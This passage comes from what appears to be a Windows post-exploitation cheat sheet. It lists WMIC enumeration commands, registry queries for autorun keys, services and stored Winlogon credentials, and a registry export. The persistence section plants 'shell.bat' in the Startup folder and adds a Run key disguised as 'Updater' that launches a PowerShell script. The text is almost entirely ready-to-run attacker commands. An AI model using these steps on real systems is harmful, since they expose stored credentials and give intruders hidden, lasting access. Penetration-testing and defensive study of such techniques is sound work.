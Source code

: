 ### VI. 🧱 Local Enumeration — WMI & WMIC

#### 🧠 Hardware & Software

```cmd
wmic computersystem get name,domain,manufacturer,model
wmic product get name,version
```

#### ⚙️ Network

```cmd
wmic nicconfig get ipaddress,macaddress,servicename
```

#### 🔑 User Info

```cmd
wmic useraccount get name,sid,status
```

***

### VII. 🧠 Windows Registry Arsenal

```cmd
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SYSTEM\CurrentControlSet\Services
```

**Find stored credentials:**

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**Export keys for analysis:**

```cmd
reg export HKLM\Software\key C:\Temp\key.reg
```

***

### VIII. 🧱 User Persistence & Scheduled Execution

#### 🧠 Startup Persistence

```cmd
copy shell.bat "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

#### ⚙️ Registry Persistence

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Users\Public\update.ps1"
```
